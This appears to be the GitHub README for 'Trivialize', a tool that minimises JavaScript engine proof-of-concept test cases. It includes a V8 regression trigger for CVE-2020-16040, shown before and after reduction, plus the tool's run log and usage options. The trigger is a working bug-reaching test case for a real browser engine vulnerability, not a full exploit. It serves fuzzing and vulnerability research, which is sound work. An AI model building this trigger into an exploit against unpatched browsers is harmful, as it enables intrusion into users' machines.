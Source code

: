 # Trivialize

A tool for javascript engine proof-of-concept simplification.

This useful little tool is a byproduct of my exploration into javascript engine fuzzing. It uses
many of the same techniques that popular fuzzing tools utilise for corpus minimization, just taken
to an extreme degree.

Currently only supports V8, but I plan on adding support for both SpiderMonkey and JavascriptCore
in the future.

## Example

Take this rather complicated regression for CVE-2020-16040 (re-implemented in modern V8).

```js
/* examples/cve-2020-16040/regression.js */

function jit_func(a, b) {
  var v921312 = 0xfffffffe;
  let v56971 = 0;  
  var v4951241 = [null, (() => {}), String, "string", v56971];
  let v129341 = [];
  v921312 = NaN;
  if (a != NaN) { 
      v921312 = (0xfffffffe)/2; 
  }
  if (typeof(b) == "string") { 
      v921312 = Math.sign(v921312); 
  }
  v56971 = 0xfffffffe/2 + 1 - Math.sign(v921312 -(-0x1)|6328);
  if (b) {
    v56971 = 0;
  }
  v129341 = new Array(Math.sign(0 - Math.sign(v56971)));
  v129341.shift();
  v4951241 = {};
  v129341.shift();
  v4951241.a = {'a': v129341};  
  for (let i = 0; i < 7; i++) {
    v129341[5] = 2855;
  }
  return v4951241;
}

/* `__NATIVE__` is used instead of `%` for parsing */
__NATIVE__PrepareFunctionForOptimization(jit_func);
jit_func(undefined, "KCGKEMDHOKLAAALLE").toString();
__NATIVE__OptimizeFunctionOnNextCall(jit_func);
jit_func(NaN, undefined).toString();
```

Running the tool against the above regression will result in it performing several
passes of the minimizer against the internal reducer suite.

This provides a much simpler proof-of-concept. In this example, the original regression
has been reduced by almost 70%, from 165 AST nodes at the start, to only 52 at the end.

```
$ ./trivialize.js --script examples/cve-2020-16040/regression.js --rename-variables

Trivialize v0.0.1 (c) Anvbis
https://github.com/anvbis/trivialize

trivialize: info: starting pass 1/?, 165 nodes at start
progress [========================================] 100% | ETA: 0s | 9/9
trivialize: info: 60 nodes at end, 63.64% node reduction

trivialize: info: starting pass 2/?, 60 nodes at start
progress [========================================] 100% | ETA: 0s | 9/9
trivialize: info: 52 nodes at end, 13.33% node reduction

trivialize: info: starting pass 3/?, 52 nodes at start
progress [========================================] 100% | ETA: 0s | 9/9
trivialize: info: 52 nodes at end, 0.00% node reduction

trivialize: info: finished, total node reduction of 68.48%
```

```js
function jit_func(arg_1, arg_2) {
    var var_0 = NaN;
    if (arg_1) {
        var_0 = 4294967294;
    }
    if (typeof arg_2) {
        var_0 = Math.sign(4294967294);
    }
    v56971 = var_0 - -1 | 6328;
}
%PrepareFunctionForOptimization(jit_func);
jit_func();
%OptimizeFunctionOnNextCall(jit_func);
jit_func();
```

## Usage

```
Usage: ./trivialize.js --script <script>

Options:
  --help              Show help                                        [boolean]
  --version           Show version number                              [boolean]
  --script            Target script to reduce                [string] [required]
  --rename-variables  Attempt to rename variables                      [boolean]
  --executable        Path to d8 executable       [string] [default: "./bin/d8"]
  --output            Output script to file                             [string]
```

## Installation

Coming soon...